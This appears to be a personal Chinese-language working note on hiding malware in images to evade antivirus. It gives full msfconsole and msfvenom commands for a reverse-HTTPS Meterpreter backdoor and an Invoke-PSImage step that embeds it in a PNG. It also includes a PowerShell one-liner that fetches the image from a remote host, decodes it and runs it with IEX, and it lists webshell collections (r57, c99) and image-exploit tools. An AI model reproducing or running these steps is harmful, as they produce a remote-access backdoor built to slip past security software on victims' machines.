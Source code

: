 # 隐写

参考：
[渗透测试之地基免杀篇：隐写RGB过所有杀软](https://www.freebuf.com/articles/web/262978.html)
https://github.com/dayuxiyou/Invoke-PSImage
git clone git@gitee.com:azhao-1981/Invoke-PSImage.git
3、MSF生成后门
NOTE: 直接运行 msfconsole 的方法
msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost 192.168.56.111; set lport 5555; exploit -j; "

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.56.111 LPORT=5555 -f psh-reflection > msf-dayu.ps1

测试ps1
WINDOWS执行：
权限
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
执行
Import-Module .\Invoke-PSimage.ps1

Invoke-PSImage -Script .\msf-dayu.ps1 -Image .\hackers.jpg -Out .\cs-dayu.png -Web

Invoke-PSImage : 使用“1”个参数调用“ReadAllText”时发生异常:“对路径的访问被拒绝。”
可能是本机杀毒软件把他

sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://example.com/cs-dayu.png"));$o=a Byte[] 3600;(0..5)|%{foreach($x in(0..599)){$p=$g.GetPixel($x,$_);$o[$_*600+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3210]))

TODO： 文件出来了，怎么执行，双击并不能执行

NOTE：
火绒可以检查出原ps1，并删除，需要添加信任
我的fc并不能检查出来，上传不会被删除


隐写工具篇
https://www.kancloud.cn/wintry/kali-linux/784110

RFI 远程文件包含
Hiding Webshell Backdoor Code in Image Files
https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/
https://cwatch.comodo.com/blog/cyber-attack/remote-file-inclusion-rfi/

这是一个恶意代码的集合，在哪里？
malicious RFI COde Samples
R57
c99
https://www.ma-no.org/en/security/how-to-detect-r57-and-c99-shells-in-your-server
Russian PHP script, r57shell

这里有：
https://github.com/backdoorhub/shell-backdoor-list
git clone git@gitee.com:azhao-1981/shell-backdoor-list.git
https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/r57.php
Delete c99.php 但不知道为什么要删除c99
好像还有一个专门的网站
https://r57.gen.tr/
http://www.r57c99.com/

这里是个相关知识的例子而以，没有代码
https://github.com/payloadbox/rfi-lfi-payload-list

一个考试
https://secf00tprint.github.io/blog/payload-tester/lfirfi/en

用于检查的工具
http://www.rfxn.com/projects/linux-malware-detect/
http://www.rfxn.com/downloads/maldetect-current.tar.gz

https://github.com/r00t-3xp10it/FakeImageExploiter
git@gitee.com:azhao-1981/FakeImageExploiter.git
图片后门捆绑利用工具 – FakeImageExploiter
https://blog.csdn.net/abc5578786/article/details/102447124
x [☆] FakeImageExploiter needs to restart to finish installs .. 这个东西装了很多东西，而且还需要 “安装”
+ 用 kali试一下